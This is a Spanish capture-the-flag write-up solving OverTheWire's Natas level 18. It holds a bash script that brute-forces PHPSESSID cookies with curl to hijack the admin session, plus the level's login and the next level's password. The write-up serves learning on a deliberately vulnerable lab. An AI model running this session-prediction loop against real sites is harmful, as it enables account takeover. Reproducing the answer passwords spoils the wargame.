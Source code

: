 ```yaml
---
title: Natas-18
published: true
---
```


```
Url del reto: http://natas18.natas.labs.overthewire.org/index.php
login:natas18
 pass:xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP
```


Hay varias tecnicas para hackear la cookie en PHP. El server configura la cookie con el parametro httpOnly con lo que decidi intentar acertar mediante fuerza bruta (Session Prediction)
[https://overthewire.org/wargames/natas/](https://overthewire.org/wargames/natas/)


```bash
#!/bin/bash
count=0

# $maxid = 640; // 640 should be enough for everyone 
while [ 640 -ge $count ]
do
	output=$(curl -s -u natas18:xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP -X POST -F username=admin -F password=12345 --cookie "PHPSESSID=$count" http://natas18.natas.labs.overthewire.org/ | wc -m)

	# Si wc -m es 1000, la salida html sera que no te has logeado como admin,
	# si es distinto sera la solucion o otro tipo de salida.

	if [[ $output != 1000 ]]; then
		echo "PHPSESSID -> $count"
		break
	fi

	echo "retry $count"
	let count=count+1
done

# Username: natas19
# Password: 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs

```
[Volver al archivo](archive)

